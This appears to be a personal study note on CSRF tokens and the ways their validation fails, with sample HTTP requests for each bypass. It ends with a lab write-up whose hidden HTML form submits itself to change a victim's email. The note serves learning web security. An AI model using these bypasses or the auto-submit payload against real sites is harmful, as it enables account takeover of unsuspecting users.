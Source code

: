 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When issuing a request to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token.

A common way to share CSRF tokens with the client is to include them as a hidden parameter in a HTML form, for example:

```HTML
<form name="change-email-form" action="/my-account/change-email" method="POST">
	<label>Email</label>
	<input required type="email" name="email" value="example@normal-website.com">
	<input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"> 
	<button class='button' type='submit'> Update email </button>
</form>
```
> Some applications place CSRF tokens in HTTP headers, the way the tokens are transmitted have significant impact on the security mechanism as a whole. More info, [How to prevent CSRF vulnerabilities](https://portswigger.net/web-security/csrf/preventing).

When implemented correctly, CSRF Tokens help protect against CSRF attacks by making it difficult for an attacker to construct a valid request on behalf of a victim. 

## Common flaws in CSRF token validation
CSRF vulnerabilities typically arise due to flawed validation of CSRF tokens.

### Validation depends on request method
Some applications validate the token when a POST method is used but skip validation when a GET method is used.
The attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:
```HTTP
GET /email/change?email=pwned@evil-user.net HTTP/1.1 
Host: vulnerable-website.com Cookie: 

session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

### Validation depends on token being present
Some applications only validate if a token is present but skip validation if no token is supplied

```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 25 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm 

email=pwned@evil-user.net
```

### CSRF token is not tied to the user session
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

### CSRF token is tied to a non-session cookie
In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:

```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv 

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

This situation is harder to exploit but is still vulnerable. If the web site contains any behaviour that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behaviour to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

> The cookie-setting behaviour does not even need to exist within the same web application as the [CSRF vulnerability](https://portswigger.net/web-security/csrf). Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on `staging.demo.normal-website.com` could be leveraged to place a cookie that is submitted to `secure.normal-website.com`.

### CSRF token is simply duplicated in a cookie
In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defence against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state:

```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa 

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

In this situation, the attacker can again perform a CSRF attack if the web site contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behaviour to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

---

## Executing a CSRF attack

### CSRF vulnerability with no defences
Created a webpage that submitted a form as a POST request that contained a secret input with the vulnerable field to the endpoint of a change-email action. Then a link to this website was added in a comment so if a user clicked it, it would send the request and it would just use their previous session token that the browser remembers.

```HTML
<form method="POST" action="https://wwww.example.net/my-account/change-email">
	<input type="hidden" name="email" value="hacked@exploit.com">
</form>

<script>
	document.forms[0].submit();
</script>
```
